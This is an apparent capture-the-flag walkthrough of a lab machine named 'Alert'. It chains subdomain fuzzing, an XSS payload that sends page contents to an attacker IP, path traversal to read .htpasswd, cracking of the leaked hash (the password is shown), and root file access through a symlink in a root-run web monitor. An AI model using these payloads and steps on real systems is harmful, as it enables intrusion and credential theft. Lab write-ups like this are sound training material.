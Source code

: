 

1.  RUN: **nmap -sV -Pn alert.htb**

Result: PORTS FOUND: 22, 80

![](images/media/image1.png)

2.  Open **HTTP://alert.htb:80**

![](images/media/image2.png){width="4.287999781277341in"
height="1.495550087489064in"}

**INFO:** According to title Alert, it should be XSS vulnerability

**[SUBDOMAIN FUZZ]{.underline}**

1.  RUN: **ffuf -w
    /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u
    http://alert.htb -H \"Host:FUZZ.alert.htb\" -ac**

> ![](images/media/image3.png){width="3.644000437445319in"
> height="1.6600185914260717in"}

1.  On Kali VM: Start HTTP-Server RUN: **python -m http.server 80**

![](images/media/image4.png){width="3.04in"
height="0.21628062117235344in"}

2.  Create **XSS_payload.md** file

- Paste script in it

- In LINE 5, Replace IP with local Kali VM IP

![](images/media/image5.png){width="6.291666666666667in"
height="1.3916666666666666in"}

**Source: <https://github.com/sh3bu/CVE-2024-41662>**

**Script:**

[\<script\>]{.mark}

[fetch(\"http://alert.htb/index.php?page=messages\")]{.mark}

[.then(response =\> response.text()) // Convert the response to
text]{.mark}

[.then(data =\> {]{.mark}

[fetch(\"http://10.10.14.201/?data=\" +
encodeURIComponent(data));]{.mark}

[})]{.mark}

[.catch(error =\> console.error(\"Error fetching the messages:\",
error));]{.mark}

[\</script\>]{.mark}

- Upload to markdown website

![](images/media/image6.png){width="3.56334208223972in"
height="1.4240004374453192in"}

Result

![](images/media/image7.png){width="5.8080336832895885in"
height="0.8679997812773403in"}

Easier to read with <https://www.urldecoder.org/>

3.  Start **python -m http.server 9001** or nc -lvnp 9001

![](images/media/image8.png){width="3.4479997812773404in"
height="0.538180227471566in"}

4.  asdf

5.  PATCH TRAVERSAL: Create modified script

<http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd>

![](images/media/image9.png){width="6.3in"
height="1.1090277777777777in"}

6.  Upload that script on Website
    [**http://alert.htb**](http://alert.htb)

**Click View Markdown**

![](images/media/image10.png){width="4.291999125109362in"
height="1.6506594488188977in"}

Right click -\> copy link

7.  ![](images/media/image11.png){width="4.119104330708661in"
    height="3.6359995625546806in"}![](images/media/image12.png){width="4.11875in"
    height="1.044669728783902in"}

8.  Upload copied LINK to **Contact** on
    **<http://alert.htb>/index.php?page=contact**

![](images/media/image13.png){width="4.36in"
height="2.2501673228346455in"}

9.  After you click on SEND, you'll get the displayed in Kali VM, the
    **[HASH Password]{.mark}**

**%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A**

![](images/media/image14.png){width="6.3in"
height="0.5930555555555556in"}

10. Convert it to cleartext on
    [www.urldecoder.org](http://www.urldecoder.org) or CyberChef
    <https://gchq.github.io/CyberChef>

![](images/media/image15.png){width="6.291666666666667in"
height="1.8958333333333333in"}

11. Create file **alert.hash** and paste hash in it

12. Crack it with **hashcat alert.hash /home/kali/Desktop/rockyou.txt**

![](images/media/image16.png){width="6.295833333333333in"
height="4.624305555555556in"}

-Login with **User:** albert **Password:** manchesterunited and display
**[user.txt FLAG]{.mark}**

RUN: cat user.txt

**[PRIVILEGE ESCALATION]{.underline}**

13. Transfer **linpeas.sh** to Server RUN: **scp linpeas.sh
    <albert@alert.htb>:**

**INFO:** Terminal has to be opened in same directory as file linpeas.sh

![](images/media/image17.png){width="6.3in"
height="0.41805555555555557in"}

14. On server RUN: **./linpeas.sh**

- **Port 8080 is open**

![](images/media/image18.png){width="2.5119991251093614in"
height="0.742017716535433in"}

Look for interesting paths, like **/opt/ [(NEEDED in STEP 19)]{.mark}**

![](images/media/image19.png){width="3.6559995625546806in"
height="0.8789391951006125in"}

15. PORT FORWARDING: **ssh -L 8080:127.0.0.1:8080 <albert@alert.htb>**

![](images/media/image20.png){width="4.1719991251093616in"
height="2.4497615923009626in"}

16. Firefox access **127.0.0.1:8080**

![](images/media/image21.png){width="2.982192694663167in"
height="3.8519991251093613in"}

17. Change directory to /opt/website-monitor and list all files

-RUN: **cd /opt/website-monitor**

-RUN: **ls -la**

**INFO: ls -la** is a very useful command for **getting a detailed view
of the files and directories** in a given location, **including hidden
files and their permissions, ownership, sizes, and modification times.**

**-**Explore the **/opt/website-monitor** directory. Investigate, how
the application works. Check which directories have write permission

![](images/media/image22.png){width="4.08992782152231in"
height="1.82in"}

18. You will see the contents of the monitors directory. You can open
    these files through the browser.

Open following in Browser: **http://127.0.0.1:8080/monitors/alert.htb**

![](images/media/image23.png){width="2.84in"
height="4.408383639545057in"}

19. The application is running under the root user so you should be able
    to read the **/etc/shadow** or **/root/root.txt**. Just create a
    symlink in the **monitors** directory and call it **root.txt**

- To create SYMBOLIC LINK, RUN: **ln -s /root/root.txt root.txt**

![](images/media/image24.png){width="4.42in"
height="1.7704396325459317in"}

[Root.txt FLAG]{.mark}
